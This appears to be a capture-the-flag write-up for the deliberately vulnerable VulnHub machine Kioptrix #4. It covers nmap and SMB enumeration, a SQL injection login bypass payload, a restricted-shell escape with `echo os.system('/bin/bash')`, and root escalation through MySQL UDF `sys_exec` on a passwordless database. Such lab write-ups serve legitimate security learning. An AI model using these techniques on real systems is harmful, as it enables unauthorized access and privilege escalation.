 ```yaml
---
title: "VulnHub - Kioptrix #4"
author: Nasrallah
description: ""
date: 2023-01-09 00:00:00 +0000
categories: [VulnHub]
tags: [vulnhub, linux, easy, udf, mysql, sqli]
img_path: /assets/img/vulnhub/kioptrix4
---
```



---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Kioptrix level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) from [VulnHub](https://www.vulnhub.com/).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 192.168.56.12                                                                                                                      [2/11]
Host is up (0.00020s latency).                                                                                                                                
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)                                                                             
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 08:00:27:EC:F8:25 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h29m58s, deviation: 3h32m07s, median: -1s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2022-12-18T11:38:27-05:00

```

Found 4 open ports:

 - 22/tcp OpenSSH 4.7p1

 - 80/tcp Apache httpd 2.2.8

 - 139/tcp Samba

 - 445/tcp Samba smbd 3.0.28a


### Web

Let's navigate to the web page.

![](1.png)

We found a login page, i tried some default credentials but no luck.

## SMB

Let's enumerate for smb shares.

![](2.png)

Nothing interesting, let's enumerate users.

![](3.png)

We found user john and robert.

## **Foothold**

Back to the login page, i tried to login using one of the username with different password but didn't succeed.

Then tried a sql injection and logged in successfully using this payload as password: `'-'`

![](4.png)

Great! We got john's password, let's use it to ssh into the machine.

![](5.png)


## **Privilege Escalation**

After we logged in, we saw that we can't execute lot of commands, but one command we can exploit is `echo`.

To get a bash shell, run `echo os.system('/bin/bash')`

![](6.png)

Great! Now let's check the web file and see if we can find any passwords.

```bash
john@Kioptrix4:/var/www$ cat checklogin.php 
<?php                                                                          
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password                                                                                                                               
$db_name="members"; // Database name
$tbl_name="members"; // Table name

```

Sql uses default credentials root:(nopassword).

Using Mysql [UDF](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html), let's connect to mysql server and run the command `select sys_exec('usermod -a -G admin john');`

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
